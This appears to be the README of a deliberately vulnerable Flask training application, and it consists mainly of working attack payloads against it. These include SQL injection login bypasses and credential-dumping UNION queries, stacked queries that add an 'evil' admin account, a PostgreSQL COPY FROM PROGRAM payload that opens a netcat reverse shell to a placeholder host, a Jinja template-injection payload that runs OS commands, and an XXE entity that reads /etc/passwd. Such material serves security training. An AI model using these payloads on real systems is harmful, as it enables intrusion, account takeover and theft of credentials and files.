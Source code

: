 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
#### Retrieve Data
Paths: `/login` and `/index`
Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT username,password FROM users--
' UNION SELECT username || ':' || password,role FROM users--
```

Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)

**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

#### Insert/Update/Delete Data
**Examples**
Path: `/add_course`
Methods: `GET, POST`

*Note:* You must select instructor and set image_path for this to work.
```
# In title section (Add new admin user)
New Course', 'Malicious Description', 1, 'image.jpg'); INSERT INTO users (username, password, role) VALUES ('evil', 'evil', 'admin'); --

# Update admin password
New Course', 'test', 1, 'test.jpg'); UPDATE users SET password = 'testing' WHERE username = 'admin'; --
```

#### RCE Via SQL Injection (Postgresql)
Path: `/add_course`
Methods: `GET, POST`

**Example:**
```
NewCourse', 'test', 1, 'test'); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f'; SELECT * FROM cmd_exec;--
```

### Server-Side Template Injection
Paths: `/search_course`
Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`
Methods: `GET, POST`

**Examples:**
```
whoami
cat /etc/passwd
```

### XML External Entity Injection (XXE)
XXE Injection allows for injection of XML entities to access or manipulate files on application.

Path: `/process_xml`
Methods: `POST`

**Example**
- On `/add_course` XML Section
```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
   <title>Test Title</title>
    <description>Test Description</description>
    <image_path>&xxe;</image_path>
</root>
```

Other resources: [XXE Cheatsheet](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
